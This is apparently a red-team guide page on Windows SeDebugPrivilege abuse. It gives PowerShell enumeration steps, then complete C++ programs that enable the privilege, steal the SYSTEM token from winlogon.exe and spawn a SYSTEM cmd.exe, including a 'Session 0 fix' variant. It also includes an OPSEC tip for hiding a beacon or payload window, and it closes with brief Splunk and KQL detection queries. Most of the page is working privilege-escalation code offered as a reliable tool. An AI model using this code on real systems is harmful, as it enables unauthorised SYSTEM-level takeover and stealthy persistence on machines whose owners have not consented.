



<Callout type="info" title="Concept Overview">
**SeDebugPrivilege** is a highly powerful Windows user right that allows a process to debug other programs, granting it the ability to read and write the memory of critical OS components. Exploitation begins by programmatically enabling this privilege using `AdjustTokenPrivileges`, and culminates in stealing the SYSTEM token from processes like `winlogon.exe` to spawn a privileged shell.

**MITRE ATT&CK Mapping:**
* [T1134 - Access Token Manipulation](https://attack.mitre.org/techniques/T1134/)
* [T1134.002 - Create Process with Token](https://attack.mitre.org/techniques/T1134/002/)
</Callout>


---

## Phase 0: Host Enumeration & Prerequisite Check (Red Team OPSEC)

<Callout type="warning" title="Red Team OPSEC">
Just seeing `winlogon.exe` running on a host does not mean you can automatically steal its token. Windows does not hand out SYSTEM tokens easily. Before attempting any Token Manipulation or Privilege Escalation, you must enumerate your current context, integrity level, and the protections on target processes using stealthy, native APIs. The presence of `SeDebugPrivilege` or `SeImpersonatePrivilege` alone is not a vulnerability; it is only dangerous if assigned to an inappropriate context.
</Callout>

<Steps>
  <Step title="Step 1: Identity & Privilege Check">
    Identify who you are and what privileges you hold. Look for `SeDebugPrivilege`, `SeImpersonatePrivilege`, `SeAssignPrimaryTokenPrivilege`, and `SeIncreaseQuotaPrivilege`.
    ```powershell
    whoami /priv
    whoami /groups

    # Quick filter for the most exploitable privileges
    whoami /priv | findstr /i "Debug Impersonate AssignPrimaryToken IncreaseQuota"
    ```
  </Step>

  <Step title="Step 2: Integrity Level Check">
    Token manipulation heavily depends on your Integrity Level (IL). You cannot manipulate a `High` or `System` integrity process from a `Medium` context, even with some privileges, unless `SeDebug` is fully enabled.
    ```powershell
    whoami /groups | findstr /i "Mandatory"
    ```
    *Look for: `Medium Mandatory Level` (Standard), `High Mandatory Level` (Elevated), or `System Mandatory Level` (SYSTEM).*
  </Step>

  <Step title="Step 3: Local Admin Check">
    Verify if your current user is part of the local Administrators group (UAC might strip privileges if not elevated).
    ```powershell
    net localgroup administrators

    # PowerShell native elevated check
    ([Security.Principal.WindowsPrincipal][Security.Principal.WindowsIdentity]::GetCurrent()).IsInRole([Security.Principal.WindowsBuiltInRole]::Administrator)
    ```
  </Step>

  <Step title="Step 4: Process & User Enumeration (WMI / CIM ONLY)">
    Do not use `Get-Process`. Red teamers use WMI/CIM to enumerate processes and their owners stealthily without loading bulky .NET assemblies. Look for processes running as `SYSTEM`, `LOCAL SERVICE`, `NETWORK SERVICE`, or `Administrator`.
    ```powershell
    # Using gcim (Get-CimInstance) - Modern WMI
    gcim Win32_Process | Select-Object ProcessId, Name, @{N="User";E={
        try { $_.GetOwner().Domain + "\" + $_.GetOwner().User } catch {}
    }} | Where-Object { $_.User -match "SYSTEM|SERVICE|Administrator" }

    # Alternative using gwmi (Get-WmiObject) - Legacy WMI
    gwmi Win32_Process | Select-Object ProcessId, Name, @{N="User";E={
        try { $_.GetOwner().Domain + "\" + $_.GetOwner().User } catch {}
    }}
    ```
  </Step>

  <Step title="Step 5: Session Enumeration">
    Check if there are other users logged into the system. If a Domain Admin is logged in, their token might be available in memory.
    ```powershell
    query user
    # or
    qwinsta
    ```
  </Step>

  <Step title="Step 6: Protected Process Light (PPL) Considerations">
    Even with `SeDebugPrivilege` enabled, you cannot open just any process. Modern Windows versions use Protected Process Light (PPL) to protect critical OS components (like `lsass.exe`).
    ```powershell
    # Identify critical system processes via WMI
    gcim Win32_Process | Where-Object { $_.Name -match 'winlogon|lsass|services|wininit' } | Select-Object ProcessId, Name
    ```
    *Note: If `lsass.exe` is PPL-protected, `OpenProcess` will fail even with `SeDebugPrivilege`. In such cases, target a different SYSTEM process (like `winlogon.exe`).*
  </Step>

  <Step title="Step 7: The Impersonate Check">
    In many token-based escalation scenarios (e.g., Potato exploits), `SeImpersonatePrivilege` is the primary target. If you are a service account (like `IIS` or `SQL`), check for this:
    ```powershell
    whoami /priv | findstr /i "SeImpersonatePrivilege"
    whoami /priv | findstr /i "SeAssignPrimaryTokenPrivilege"
    ```
  </Step>
</Steps>

<AccordionGroup>
  <Accordion title="Summary Enumeration Block">
    Run this baseline block for a structured assessment:
    ```powershell
    whoami /priv
    whoami /groups
    query user
    net localgroup administrators
    gcim Win32_Process | Select-Object ProcessId, Name, @{N="User";E={ try { $_.GetOwner().Domain + "\" + $_.GetOwner().User } catch {} }}
    whoami /priv | findstr /i "SeDebugPrivilege SeImpersonatePrivilege SeAssignPrimaryTokenPrivilege SeIncreaseQuotaPrivilege"
    ```
  </Accordion>
</AccordionGroup>

---

## Phase 1: Privilege Fundamentals & Configuration

<Callout type="info" title="Capabilities & Assignment Context">
**Capabilities:**
* Memory access to critical OS components (e.g., `lsass.exe`, `winlogon.exe`).
* Process debugging including system-level protected processes.
* Bypassing Access Control Lists (ACLs) on target processes.

**Target Users:** Developers (for debugging), System Admins (for troubleshooting), Service Accounts.
</Callout>

<Callout type="tip" title="Windows GPO Path to Assign SeDebugPrivilege">
This privilege is typically configured via Local or Domain Group Policy. The diagram below shows the exact path an administrator takes to assign this right to a user or group, and the resulting security impact.

```mermaid
%%{init: {'theme': 'base', 'themeVariables': { 'background': '#050505', 'primaryColor': '#111118', 'edgeLabelBackground':'#050505', 'primaryTextColor': '#ffffff', 'primaryBorderColor': '#FF003C', 'lineColor': '#FF003C', 'fontFamily': 'monospace' }}}%%
flowchart LR
    subgraph GPO ["Group Policy Editor (gpedit.msc)"]
        direction TB
        A(["Local Computer Policy"]) --> B["Computer Configuration"]
        B --> C["Windows Settings"]
        C --> D["Security Settings"]
        D --> E["Local Policies"]
        E --> F["User Rights Assignment"]
        F --> G["Debug programs<br>(SeDebugPrivilege)"]
        G --> H(["Add User or Group..."])
    end
    
    subgraph Impact ["Security Impact"]
        I["Attacker can dump LSASS<br>or steal SYSTEM Tokens"]
    end

    H ==> I

    classDef default fill:#111118,stroke:#585b70,stroke-width:1px,color:#ffffff;
    classDef target fill:#1a1a1a,stroke:#FF003C,stroke-width:2px,color:#FF003C;
    classDef action fill:#1a1a1a,stroke:#a6e3a1,stroke-width:2px,color:#a6e3a1;
    classDef impact fill:#1a1a1a,stroke:#89b4fa,stroke-width:2px,color:#89b4fa;

    class A,B,C,D,E,F default;
    class G target;
    class H action;
    class I impact;
```

</Callout>



---

## Phase 2: Enabling the Privilege (Code Mechanics)

Before a process can use `SeDebugPrivilege`, it must be explicitly enabled in code. This is done by manipulating the `TOKEN_PRIVILEGES` structure.

<Callout type="info" title="Anatomy of Token Privilege Structures">
To enable `SeDebugPrivilege`, the program uses nested Windows API structures. The diagram below illustrates how the variables relate to each other and how the APIs populate them.
</Callout>



<AccordionGroup>
  <Accordion title="C++ Code: The `EnableSeDebugPrivilege` Function">
    This snippet retrieves the current process token, locates the LUID for `SeDebugPrivilege`, and enables it. This is the mandatory first step before attempting to open protected processes.
    
    ```cpp
    #include <windows.h>
    #include <stdio.h>

    BOOL EnableSeDebugPrivilege() {
        HANDLE hToken;
        TOKEN_PRIVILEGES tp;
        LUID luid;

        // 1. Get the token of the current process
        if (!OpenProcessToken(GetCurrentProcess(), TOKEN_ADJUST_PRIVILEGES, &hToken)) return FALSE;
        
        // 2. Look up the LUID for SeDebugPrivilege
        if (!LookupPrivilegeValue(NULL, SE_DEBUG_NAME, &luid)) {
            CloseHandle(hToken);
            return FALSE;
        }

        // 3. Populate the TOKEN_PRIVILEGES structure
        tp.PrivilegeCount = 1;
        tp.Privileges[0].Luid = luid;
        tp.Privileges[0].Attributes = SE_PRIVILEGE_ENABLED;

        // 4. Apply the privilege to the token
        if (!AdjustTokenPrivileges(hToken, FALSE, &tp, sizeof(tp), NULL, NULL)) {
            CloseHandle(hToken);
            return FALSE;
        }

        CloseHandle(hToken);
        return TRUE;
    }
    ```
  </Accordion>
</AccordionGroup>

---

## Phase 3: Stealing the SYSTEM Token (Exploitation)

Once `SeDebugPrivilege` is active, the attacker can bypass Windows ACLs to open a highly protected process like `winlogon.exe` (which runs as `NT AUTHORITY\SYSTEM`), extract its primary token, duplicate it, and use it to spawn a new malicious process.

<Callout type="info" title="Attack Concept & Topology">
1. The attacker enables `SeDebugPrivilege` programmatically using `AdjustTokenPrivileges`.
2. With `SeDebug` active, the attacker uses `OpenProcess` on `winlogon.exe`. Normally, opening a SYSTEM process with `PROCESS_QUERY_LIMITED_INFORMATION` from a non-admin user fails, but `SeDebug` ignores the security descriptor (ACL) of the target process.
3. The attacker extracts the SYSTEM token from `winlogon.exe`.
4. The attacker duplicates this token and passes it to `CreateProcessWithTokenW` to spawn a SYSTEM shell.
</Callout>



<Callout type="tip" title="Sequential API Call Chain">
This diagram illustrates the exact sequence of Windows API calls made by the C++ code, from enabling the privilege to spawning the final SYSTEM process.
</Callout>



<AccordionGroup>
  <Accordion title="C++ Code: Full SYSTEM Shell via Token Duplication">
    This code combines the privilege enabler with the token theft logic. It asks for the `winlogon.exe` PID, steals its token, and spawns a `cmd.exe` as SYSTEM.
    
    ```cpp
    #include <windows.h>
    #include <stdio.h>

    BOOL EnableSeDebugPrivilege() {
        HANDLE hToken;
        TOKEN_PRIVILEGES tp;
        LUID luid;

        if (!OpenProcessToken(GetCurrentProcess(), TOKEN_ADJUST_PRIVILEGES, &hToken)) return FALSE;
        if (!LookupPrivilegeValue(NULL, SE_DEBUG_NAME, &luid)) {
            CloseHandle(hToken);
            return FALSE;
        }

        tp.PrivilegeCount = 1;
        tp.Privileges[0].Luid = luid;
        tp.Privileges[0].Attributes = SE_PRIVILEGE_ENABLED;

        if (!AdjustTokenPrivileges(hToken, FALSE, &tp, sizeof(tp), NULL, NULL)) {
            CloseHandle(hToken);
            return FALSE;
        }

        CloseHandle(hToken);
        return TRUE;
    }

    int main() {
        // 1. Enable SeDebugPrivilege
        if (!EnableSeDebugPrivilege()) {
            printf("[-] Failed to enable SeDebugPrivilege\n");
            return 1;
        }

        DWORD pid;
        printf("Enter PID of winlogon.exe: ");
        scanf("%lu", &pid);
        getchar(); // Consume newline

        // 2. Open the winlogon process (Bypasses ACL due to SeDebug)
        HANDLE hProcess = OpenProcess(PROCESS_QUERY_LIMITED_INFORMATION, FALSE, pid);
        if (!hProcess) {
            printf("[-] Failed to open process. Error: %lu\n", GetLastError());
            return 1;
        }

        // 3. Open the token of the winlogon process
        HANDLE hToken{};
        if (!OpenProcessToken(hProcess, TOKEN_DUPLICATE | TOKEN_ASSIGN_PRIMARY | TOKEN_QUERY, &hToken)) {
            printf("[-] Failed to open token. Error: %lu\n", GetLastError());
            CloseHandle(hProcess);
            return 1;
        }

        // 4. Duplicate the token
        HANDLE hDupToken{};
        if (!DuplicateTokenEx(hToken, MAXIMUM_ALLOWED, NULL, SecurityImpersonation, TokenPrimary, &hDupToken)) {
            printf("[-] Failed to duplicate token. Error: %lu\n", GetLastError());
            CloseHandle(hToken);
            CloseHandle(hProcess);
            return 1;
        }

        // 5. Create the cmd process with the duplicated SYSTEM token
        STARTUPINFOW si = { sizeof(si) };
        PROCESS_INFORMATION pi = { 0 };
        if (!CreateProcessWithTokenW(hDupToken, LOGON_WITH_PROFILE, L"C:\\Windows\\System32\\cmd.exe", NULL, 0, NULL, NULL, &si, &pi)) {
            printf("[-] Failed to create process. Error: %lu\n", GetLastError());
        } else {
            printf("[+] Process created successfully! with PID: %lu\n", pi.dwProcessId);
        }

        // Cleanup
        CloseHandle(hToken);
        CloseHandle(hDupToken);
        CloseHandle(hProcess);
        return 0;
    }
    ```
  </Accordion>
</AccordionGroup>

<Callout type="tip" title="Code Explanation (Step-by-Step)">
* `EnableSeDebugPrivilege()`: Retrieves the current process token, looks up the LUID for `SeDebugPrivilege`, and enables it using `AdjustTokenPrivileges`.
* `OpenProcess()`: Opens a handle to `winlogon.exe`. The `PROCESS_QUERY_LIMITED_INFORMATION` access right is sufficient to query its token. This only succeeds because `SeDebug` is active.
* `OpenProcessToken()`: Extracts the access token (`hToken`) from `winlogon.exe`. We need `TOKEN_DUPLICATE` rights to copy it.
* `DuplicateTokenEx()`: Creates a new primary token (`hDupToken`) based on `winlogon.exe`'s token. You cannot use the original token directly to create a process; it must be duplicated into a primary token.
* `CreateProcessWithTokenW()`: Spawns `cmd.exe`. Instead of using the attacker's token, it uses the `hDupToken` (SYSTEM token). The resulting `cmd.exe` window runs as `NT AUTHORITY\SYSTEM`.
</Callout>

---

## Advanced PoC: SYSTEM Shell via Token Impersonation & Session Fixing

This code is a significant upgrade from basic token theft PoCs. It addresses real-world Windows security boundaries like Session 0 Isolation and provides accurate error handling, making it a highly reliable Red Team tool.

<AccordionGroup>
  <Accordion title="Advanced PoC C++ Code">
    ```cpp
    #include <windows.h>
    #include <iostream>
    #include <wtsapi32.h> 
    #pragma comment(lib, "Wtsapi32.lib")

    void PrintCurrentUser() {
        wchar_t username[256];
        DWORD size = sizeof(username) / sizeof(username[0]);
        if (GetUserNameW(username, &size)) {
            std::wcout << L"[+] Current user is: " << username << std::endl;
        }
    }

    bool EnableDebugPrivilege() {
        HANDLE hToken;
        TOKEN_PRIVILEGES tp;
        if (!OpenProcessToken(GetCurrentProcess(), TOKEN_ADJUST_PRIVILEGES | TOKEN_QUERY, &hToken)) {
            return false;
        }
        if (!LookupPrivilegeValueW(NULL, SE_DEBUG_NAME, &tp.Privileges[0].Luid)) {
            CloseHandle(hToken);
            return false;
        }
        tp.PrivilegeCount = 1;
        tp.Privileges[0].Attributes = SE_PRIVILEGE_ENABLED;

        AdjustTokenPrivileges(hToken, FALSE, &tp, sizeof(TOKEN_PRIVILEGES), NULL, NULL);
        bool success = (GetLastError() == ERROR_SUCCESS);
        CloseHandle(hToken);
        return success;
    }

    int wmain(int argc, wchar_t** argv)
    {
        if (argc < 2) {
            std::wcerr << L"[-] Usage: " << argv[0] << L" <PID>" << std::endl;
            return 1;
        }
        PrintCurrentUser();

        if (EnableDebugPrivilege()) {
            std::cout << "[+] SeDebugPrivilege enabled!" << std::endl;
        }
        else {
            std::cerr << "[!] Warning: Failed to enable SeDebugPrivilege. Run as Administrator!" << std::endl;
        }

        DWORD pid = _wtoi(argv[1]);
        if (pid == 0) {
            std::cerr << "[-] Invalid PID provided." << std::endl;
            return 1;
        }

        HANDLE hToken = NULL;
        HANDLE hDupToken = NULL;

        HANDLE hprocess = OpenProcess(PROCESS_QUERY_LIMITED_INFORMATION, TRUE, pid);
        if (!hprocess) {
            std::cerr << "[-] OpenProcess failed: " << GetLastError() << std::endl;
            return 1;
        }
        std::cout << "[+] OpenProcess() success!" << std::endl;
        if (!OpenProcessToken(hprocess, TOKEN_DUPLICATE | TOKEN_QUERY | TOKEN_ADJUST_DEFAULT | TOKEN_ASSIGN_PRIMARY | TOKEN_IMPERSONATE, &hToken)) {
            std::cerr << "[-] OpenProcessToken failed: " << GetLastError() << std::endl;
            CloseHandle(hprocess);
            return 1;
        }
        std::cout << "[+] OpenProcessToken() success!" << std::endl;

        // ========================================================================
        // Token Impersonation Validation
        // ========================================================================
        if (ImpersonateLoggedOnUser(hToken)) {
            std::cout << "[+] ImpersonatedLoggedOnUser() success!" << std::endl;
            PrintCurrentUser();

            std::cout << "[+] Reverting thread to original user context" << std::endl;
            // Revert thread back to the original user context
            RevertToSelf();
        }
        else {
            std::cerr << "[-] ImpersonateLoggedOnUser failed: " << GetLastError() << std::endl;
        }
        if (!DuplicateTokenEx(hToken, MAXIMUM_ALLOWED, NULL, SecurityImpersonation, TokenPrimary, &hDupToken)) {
            std::cerr << "[-] DuplicateTokenEx failed: " << GetLastError() << std::endl;
            CloseHandle(hToken);
            CloseHandle(hprocess);
            return 1;
        }
        std::cout << "[+] DuplicateTokenEx() success!" << std::endl;

        // ========================================================================
        // Session 0 Isolation Fix
        // ========================================================================
        DWORD sessionId = WTSGetActiveConsoleSessionId();
        if (!SetTokenInformation(hDupToken, TokenSessionId, &sessionId, sizeof(DWORD))) {
            std::cerr << "[!] Warning: Failed to set Session ID. Error: " << GetLastError() << std::endl;
        }

        STARTUPINFOW si;
        PROCESS_INFORMATION pi;
        ZeroMemory(&si, sizeof(STARTUPINFOW));
        si.cb = sizeof(STARTUPINFOW);

        wchar_t desktop[] = L"WinSta0\\Default";
        si.lpDesktop = desktop;

        ZeroMemory(&pi, sizeof(PROCESS_INFORMATION));

        if (CreateProcessWithTokenW(hDupToken, LOGON_WITH_PROFILE, L"C:\\Windows\\System32\\cmd.exe", NULL, 0, NULL, NULL, &si, &pi)) {
            std::cout << "[+] Process spawned!" << std::endl;
            CloseHandle(pi.hProcess);
            CloseHandle(pi.hThread);
        }
        else {
            std::cerr << "[-] CreateProcessWithTokenW failed: " << GetLastError() << std::endl;
        }
        
        // Cleanup
        CloseHandle(hToken);
        CloseHandle(hDupToken);
        CloseHandle(hprocess);
        return 0;
    }
    ```
  </Accordion>
</AccordionGroup>

<Callout type="tip" title="Why This Code is Superior (Red Team Perspective)">
1. **Session 0 Isolation Fix (`WTSGetActiveConsoleSessionId`)**: In Windows, services and system processes run in Session 0, while user processes run in Session 1+. If you steal a token from a Session 0 process and spawn `cmd.exe`, it will be invisible to the user. This code extracts the active console session ID and uses `SetTokenInformation` to patch the duplicated token, ensuring the spawned process appears on the user's active desktop.
2. **Desktop Visibility (`WinSta0\\Default`)**: By explicitly setting `si.lpDesktop` to `WinSta0\\Default`, the code guarantees that the GUI window of the spawned process is bound to the interactive window station and default desktop, making it visible and interactive.
3. **Token Validation (`ImpersonateLoggedOnUser`)**: Instead of blindly trying to create a process, the code temporarily applies the stolen token to its own thread using `ImpersonateLoggedOnUser`, prints the current user to prove the theft was successful, and then reverts to its original context using `RevertToSelf`. This is exactly how tools like Meterpreter or Cobalt Strike validate `steal_token`.
4. **Accurate Privilege Check (`GetLastError`)**: The `AdjustTokenPrivileges` API has a quirk—it returns `TRUE` even if the privilege doesn't exist. This code correctly checks `GetLastError() == ERROR_SUCCESS` to verify that `SeDebugPrivilege` was actually enabled.
5. **CLI & Wide String Support (`wmain`)**: Using `wmain` and `wchar_t` makes the tool a proper command-line utility that handles Unicode characters correctly, which is the modern standard for Windows C++ development.
</Callout>

<Callout type="warning" title="OPSEC Note for Stealth Execution">
In its current state, this code spawns a visible `cmd.exe` window. For completely stealthy execution (e.g., running a beacon or a hidden payload), you must add the following lines to the `STARTUPINFOW` structure before calling `CreateProcessWithTokenW`:
```cpp
si.dwFlags = STARTF_USESHOWWINDOW;
si.wShowWindow = SW_HIDE; // Hides the window
```
</Callout>

---

## Phase 4: Detection & Threat Hunting

<Callout type="warning" title="Windows Event Codes">
Detecting the enabling of `SeDebugPrivilege` relies on auditing privileged service calls.

**Event ID 4673 (A privileged service was called):**
* **Trigger:** Generated when a process calls `AdjustTokenPrivileges` to enable `SeDebugPrivilege` (or uses it to open another process).
* **Filter:** Look for `PrivilegeList` containing `SeDebugPrivilege`.
* **Note:** This event is noisy and requires "Audit Privilege Use" to be enabled in the GPO, which is often disabled in default environments due to disk space concerns.
</Callout>

<Tabs>
  <Tab title="Splunk SPL Query">
    This query hunts for processes attempting to enable or use `SeDebugPrivilege`.
    ```splunk
    index=windows sourcetype="WinEventLog:Security" EventCode=4673 
    PrivilegeList="SeDebugPrivilege"
    | stats count min(_time) as firstTime max(_time) as lastTime by Computer, Account_Name, Process_Name, Object_Server
    | rename Computer as Host, Account_Name as User, Process_Name as "Process"
    ```
  </Tab>

  <Tab title="Elastic ELK KQL Query">
    This query can be pasted directly into Kibana's Discover or KQL search bar.
    ```kql
    event.code: 4673 and winlog.event_data.PrivilegeList: "SeDebugPrivilege"
    ```
    *Note: Ensure your Winlogbeat configuration is capturing Security logs and mapping `PrivilegeList`.*
  </Tab>
</Tabs>
